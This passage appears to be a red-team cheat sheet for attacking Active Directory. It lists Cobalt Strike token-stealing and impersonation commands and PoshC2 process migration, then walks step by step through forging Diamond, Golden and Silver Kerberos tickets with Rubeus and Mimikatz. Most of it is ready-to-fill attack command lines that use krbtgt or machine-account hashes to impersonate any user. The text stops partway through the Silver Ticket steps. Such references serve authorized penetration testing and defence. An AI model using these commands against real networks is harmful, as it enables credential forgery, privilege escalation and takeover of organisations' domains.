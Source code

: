 #### _Native Cobalt Strike change user context options:_
- Steal a token from a specified process \(works well for accessing remote resources but not local ones\): `steal_token <PID>`
- Create an impersonation token into the current process based on provided credentials \(this will show as a logon type 9\) \(make sure you are in a global writeable directory\): `make_token (<domain>\)<username> <password>`
- Revert to beacon's original access token: `rev2self`

#### _Native PoshC2 process migration options:_
- C\# Implant (when using a daisychain implant enter the name of the daisychain shellcode that was used during the daisychain setup): `migrate <PID>`
- PS Implant: `migrate -procid <PID>`

#### _Diamond\-Ticket attack:_
Whereas Golden Ticket attacks take advantage of the ability to forge a ticket granting ticket (TGT) from scratch, Diamond Ticket attacks take advantage of the ability to decrypt and re-encrypt genuine TGTs requested from a domain controller (DC). More information can be found [here](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/). 
>Like the Golden Ticket attack, the Diamond Ticket attack also requires access to the KRBTGT key.
- 1\. Requests a normal TGT for a low-privileged user under your control using Rubeus that will decrypts the TGT, modifies the relevant parts, recalculates the signatures and re-encrypts the TGT \([Rubeus](https://github.com/GhostPack/Rubeus)\): `Rubeus.exe diamond /krbkey:<AES265 krb account hash> /user:<username> /password:<password> /enctype:aes /domain:<FQDN> /dc<FQDN DC> /ticketuser:<target account name to "impersonate"> /ticketuserid:<SID of target user> /groups:512 /nowrap`
- 2\. The resulting ticket can then be used like any other TGT, but now with the modifications. For example it is possible to request an ST to the CIFS service on our target DC (Rubeus): `Rubeus.exe asktgs /ticket:<base64 generated ticket> /service:cifs/<FQDN DC> /ptt /nowrap`

#### _Golden\-Ticket attack:_
The KRBTGT account can be abused to generate Ticket Granting Tickets \(TGTs\) for any account in the domain\.
>It is mandatory to have access to the krbtgt account AES/NTLM hash\. 
- 1\. Obtain domain SID \([SharpView](https://github.com/tevora-threat/SharpView)\): `Get-DomainSID`
- 2\. Forge golden ticket from local running Mimikatz instance (Mimikatz): `kerberos::golden /user:<user to impersonate (e.g. Administrator)> /domain:<domain FQDN> /sid:<domain SID> /aes256:<krbtgt hash> /ticket:ticket.kirbi (/startoffset:-10 /endin:600 /renewmax:10080)`
- 3\. Import the ticket and run command as the impersonated user:
	- Directly on the target system \(for cobalt strike use the make\_token \+ kerberos\_ticket\_use method\) \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe ptt /ticket:<path to ticket.kirbi> | <kirbi base64 string>`
	- On your attacking system:
		- 1\. \(optional\) In the case of a computer account, add its FQDN to your local '/etc/hosts' file
		- 2\. Set \.ccache ticket as environment variable: `export KRB5CCNAME=</path/to/Administrator.ccache>`
		- 3\. Make sure that your time is synchronized with the target DC to use kerberos
		- 4\. It is now possible to run tools in the context of  the impersonated user against a specific resource \(if you only control the service account\) or all resources \(if you control the computer account\)\. 

#### _Silver\-Ticket attack:_
While a golden ticket is a domain\-wide pass, the scope of a silver ticket is limited to a single computer resource which requires the computer\- or service account hash to forge a valid TGS\. Machine account hashes are rather uncrackable due to the machine account password being a random 120\+ bytes long string\. A silver ticket is therefore a good way of utilizing obtained machine account hashes\.
- 1\. Obtain the FQDN and domain SID \([SharpView](https://github.com/tevora-threat/SharpView)\): `Get-DomainSID`
- 2\. Forge silver ticket based on local running mimikatz instance \(mimikatz\): `kerberos::golden /user:<user to impersonate (e.g. Administrator)> /domain:<domain FQDN> /sid:<domain SID> /target:<target account name> /service:<target domain service (e.g. HOST)> /aes256:<machine key> /ticket:ticket.kirbi`
- 3\. Import the ticket and run command as the impersonated user: